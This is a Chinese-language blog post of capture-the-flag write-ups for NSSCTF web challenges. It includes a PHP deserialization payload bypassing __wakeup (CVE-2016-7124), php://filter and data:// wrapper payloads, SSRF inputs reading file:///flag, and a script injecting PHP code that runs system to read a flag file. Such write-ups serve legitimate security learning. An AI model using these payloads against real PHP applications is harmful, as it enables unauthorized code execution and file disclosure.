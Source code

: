 ```yaml
---
title: Web做题1
date: 2023-12-03 21:09:13
tags: Web
mathjax: true
---
```


# Web做题1

## 1.[SWPUCTF 2021 新生赛]no_wakeup

反序列化时触发`__wakeup`函数，考虑绕开。

```php
$aa = new HaHaHa();
$aa->admin = "admin";
$aa->passwd = "wllm";
$stus = serialize($aa);
print_r($stus); //O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```

CVE-2016-7124：当参数列表中成员个数与实际不符时绕过`__wakeup`函数，构造：

```
O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```

payload：

```python
import requests
response=requests.get('http://node4.anna.nssctf.cn:28398/class.php?p=O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}')
print(response.text[-44:])
```

## 2.[LitCTF 2023]我Flag呢？

略。

## 3.[SWPUCTF 2021 新生赛]PseudoProtocols

hint.php读取方法：

```
?wllm=php://filter/read=convert.base64-encode/resource=hint.php
```

以文件形式读取：

```
?a=data://text/plain,I want flag
```

exp:

```python
import requests,base64
response1=requests.get('http://node4.anna.nssctf.cn:28518/index.php?wllm=php://filter/read=convert.base64-encode/resource=hint.php')
tmp1=response1.text[-56:]
tmp2=base64.b64decode(tmp1.encode())
# print(tmp2)

response2=requests.get('http://node4.anna.nssctf.cn:28518/test2222222222222.php?a=data://text/plain,I want flag')
print(response2.text[-44:])
```

## 4.[NISACTF 2022]easyssrf

SSRF，尝试访问：

```
file:///flag
```

访问：

```
file:///fl4g
```

访问：

```
http://node5.anna.nssctf.cn:28734/ha1x1ux1u.php
```

php伪协议：

```
http://node5.anna.nssctf.cn:28734/ha1x1ux1u.php?file=php://filter/read=convert.base64-encode/resource=/flag
```

## 5.[LitCTF 2023]PHP是世界上最好的语言！！

```python
from selenium import webdriver
import time
browser=webdriver.Edge()
browser.get('http://node5.anna.nssctf.cn:28327/')
elem1=browser.find_element_by_id('php_code');
elem1.send_keys("<?phpsystem(\"cat ../../../flag\");?>")
elem2=browser.find_element_by_id('run');
elem2.click()
time.sleep(1)
elem3=browser.find_element_by_id('run_result');
print(elem3.text[-44:]);
browser.quit()
```

## 6.[NCTF 2018]签到题

抓包用重放器。

